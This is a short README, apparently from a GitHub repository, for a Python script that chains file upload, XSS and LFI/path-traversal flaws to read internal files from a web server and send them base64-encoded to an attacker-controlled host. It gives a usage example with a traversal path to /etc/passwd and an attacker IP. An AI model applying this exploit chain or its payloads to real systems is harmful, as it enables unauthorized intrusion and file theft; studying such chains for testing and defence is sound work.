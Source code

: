# WebVulnsChainingAutomation
This script automates the process of exploiting a chain of web vulnerabilities, which include File Upload, XSS, LFI & Path Traversal, that allows you to read internal files from a web server.

The process goes like the following:
1. First we abuse a File Upload functionality in order to upload a malicious Markdown (.md) file that contains a script which makes a fetch to and endpoint that includes files through a ?file parameter in a way that is vulnerable to LFI.
2. There's an option to share the uploaded file, and a "Contact Us" form which is vulnerable to XSS, chaining this we are able to fetch resources to a web server from ourselves.
3. Finally we receive the contents encoded in base64 in our server, decode them and shem through the terminal, all with just one line.

To run the script:
`python3 vulnschain.py <file-to-read> <attacker-ip>`</br>
E.g. `python3 vulnschain.py ../../../../../etc/passwd 10.10.1.2`
